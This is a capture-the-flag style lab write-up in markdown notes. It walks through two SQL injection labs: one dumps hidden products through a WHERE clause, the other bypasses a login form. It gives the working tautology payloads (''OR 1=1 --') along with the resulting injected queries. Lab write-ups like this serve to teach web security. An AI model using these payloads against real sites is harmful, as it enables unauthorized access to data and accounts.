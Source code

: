 # SQL Injection
## SQL injection vulnerability in `WHERE` clause allowing retrieval of hidden data
### Enumeration
- We are given the following webpage 
![[Pasted image 20220624105144.png]]

### Vulnerability Assessment
#### SQL Query
- It is given that the vulnerable SQL query is as below :
```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```
- Playing around with the category toggle buttons
 ![[Pasted image 20220624110013.png]]
- leads us to the following `GET` request.
![[Pasted image 20220624105945.png]]
- Confirming vulnerability by adding a `'` or in web encoding `%27`
![[Pasted image 20220624110328.png]]
![[Pasted image 20220624110431.png]]
- The resulting `Internal Server Error` tells us that there is an error in the SQL statement which is expected as with the addition of `&27` SQL statement becomes : 
```sql
SELECT * FROM products WHERE category = '' Gifts' AND released = 1
```
### Exploitation
- Thus with knowledge of the query as well as the type of request to use, we can inject `'1 OR 1=1 --` and the SQL query will look like below.
```sql
SELECT * FROM products WHERE category = '' OR 1=1 -- Gifts' AND released = 1
```
- We force a true statement and commented out what is after the true statement to leak out the entire database.
![[Pasted image 20220624111641.png]]
![[Pasted image 20220624111726.png]]

## SQL injection vulnerability allowing login bypass
### Enumeration
- We are given the website and based on the title of the Lab we will simply hop to `My Account`
![[Pasted image 20220624112022.png]]
- Which gives us a Login page
![[Pasted image 20220624112158.png]] 
### Vulnerability Assessment
#### Testing for Request Type
- First we will test the parameters to know if it is `GET` or `POST` based.
![[Pasted image 20220624112252.png]]
![[Pasted image 20220624112303.png]]
- With this ,we now know that a `POST` request is needed.
#### Testing for Vulnerable Parameters
- We will input ` OR 1=1` the Login and Password field individually
![[Pasted image 20220624112523.png]]
![[Pasted image 20220624112810.png]]
- The below error is met for both fields hence both fields are likely vulnerable.
![[Pasted image 20220624112430.png]]
We can postulate that the SQL statement is as such
```sql
SELECT username,password FROM login WHERE username='$input_username' AND password='$input_password'
```
### Exploitation
- Therefore by inputting `'OR 1=1 --` we will give a true statement and bypass the login. The resulting statement will be as follows : 
```sql
SELECT username,password FROM login WHERE username=''OR 1=1 -- AND password='$input_password'

SELECT username,password FROM login WHERE username='aa' AND password='' OR 1=1 -- '
```

![[Pasted image 20220624113426.png]]
![[Pasted image 20220624113315.png]]
- And we managed to bypass the login.
![[Pasted image 20220624113251.png]]